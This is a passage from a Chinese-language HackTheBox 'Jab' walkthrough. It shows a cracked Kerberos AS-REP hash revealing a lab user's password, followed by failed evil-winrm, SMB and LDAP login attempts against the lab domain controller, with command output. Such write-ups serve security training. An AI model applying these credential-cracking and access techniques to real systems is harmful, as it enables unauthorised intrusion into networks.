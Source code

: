```bash
* Runtime...: 0 secs

$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855:Midnight_121
Approaching final keyspace - workload adjusted.
```

## jmontgomery凭据下的探索

### winrm连接失败

拿到一个凭据，且域控有开放5985端口，首先该想到尝试`evil-winrm`连接。  
不过结果失败：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ evil-winrm -i 10.10.11.4 -u jmontgomery -p Midnight_121

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

### SMB连接失败

那么从头开始，SMB、LDAP收集信息。

SMB无法登陆：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient -L //10.10.11.4/ -U jab.htb/montgomery%Midnight_121  
session setup failed: NT_STATUS_LOGON_FAILURE
```

### LDAP无有用信息

LDAP似乎要求LDAPS连接。
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121'                                       
ldap_bind: Strong(er) authentication required (8)
        additional info: 00002028: LdapErr: DSID-0C090389, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' 
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
```
